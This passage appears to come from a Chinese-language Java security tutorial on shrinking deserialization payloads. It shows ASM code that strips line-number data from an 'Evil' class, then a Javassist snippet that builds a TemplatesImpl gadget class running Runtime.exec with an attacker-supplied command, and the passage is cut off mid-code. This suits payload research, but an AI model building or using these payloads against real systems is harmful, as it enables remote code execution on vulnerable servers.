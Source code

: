 ```java
public class ShortClassVisitor extends ClassVisitor {
    private final int api;

    public ShortClassVisitor(int api, ClassVisitor classVisitor) {
        super(api, classVisitor);
        this.api = api;
    }

    @Override
    public MethodVisitor visitMethod(int access, String name, String descriptor, String signature, String[] exceptions) {
        MethodVisitor mv = super.visitMethod(access, name, descriptor, signature, exceptions);
        return new ShortMethodAdapter(this.api, mv);
    }
}
```

重点在于ShortMethodAdapter：如果遇到`LINENUMBER`指令则 **阻止传递** ，可以理解为返回空

```java
public class ShortMethodAdapter extends MethodVisitor implements Opcodes {

    public ShortMethodAdapter(int api, MethodVisitor methodVisitor) {
        super(api, methodVisitor);
    }

    @Override
    public void visitLineNumber(int line, Label start) {
        // delete line number
    }
}
```

读取编译的字节码并处理后替换

```java
Resolver.resolve("/path/to/EvilByteCodes.class");
byte[] newByteCodes = Files.readAllBytes(Paths.get("/path/to/EvilByteCodes.class"));
byte[] payload = Base64.getEncoder().encode(CB1.getPayloadUseByteCodes(newByteCodes));
System.out.println(new String(payload).length());
```

有一些看不懂，不太知道应该怎么实现了，但实际上在 4ra1n 师傅自己的 [项目](https://github.com/4ra1n/ShortPayload/tree/0d127c52a980dc35a822089bd44b72ec090d814d/src/main/java/org/sec/payload) 里也没有使用 ASM 技术，因为恶意类在我们的代码中是写死的，并不能实现动态构造，不过师傅还是给出了 [示例](https://github.com/4ra1n/ShortPayload/tree/0d127c52a980dc35a822089bd44b72ec090d814d/src/main/java/org/sec/payload) 。

#### Javassist 进一步使用

ASM 固然是动态构造字节码的一种手段，但是总有更好的方式，这里就是 Javassist

```java
private static byte[] getTemplatesImpl(String cmd) {
    try {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("Evil");
        CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        ctClass.setSuperclass(superClass);

        CtConstructor constructor = ctClass.makeClassInitializer();
        constructor.setBody("        try {\n" +
                            "            Runtime.getRuntime().exec(\"" + cmd + "\");\n" +
                            "        } catch (Exception ignored) {\n" +
                            "        }");

        CtMethod ctMethod1 = CtMethod.make("    public void transform(" +
```